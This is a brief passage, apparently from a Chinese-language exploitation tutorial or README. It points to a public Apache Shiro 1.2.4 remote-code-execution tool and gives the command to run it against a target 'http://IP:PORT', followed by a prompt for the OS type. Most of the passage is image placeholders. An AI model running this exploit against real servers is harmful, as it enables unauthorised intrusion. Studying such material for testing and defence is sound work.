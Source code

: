 ![img4](img/img4.png)

工具 2：https://github.com/zhzyker/shiro-1.2.4-rce

```
python3 shiro-1.2.4_rce.py http://IP:PORT
```

![img11](img/img11.png)

如图中一样手动输入系统类型 linux 或 windows

![img10](img/img10.png)
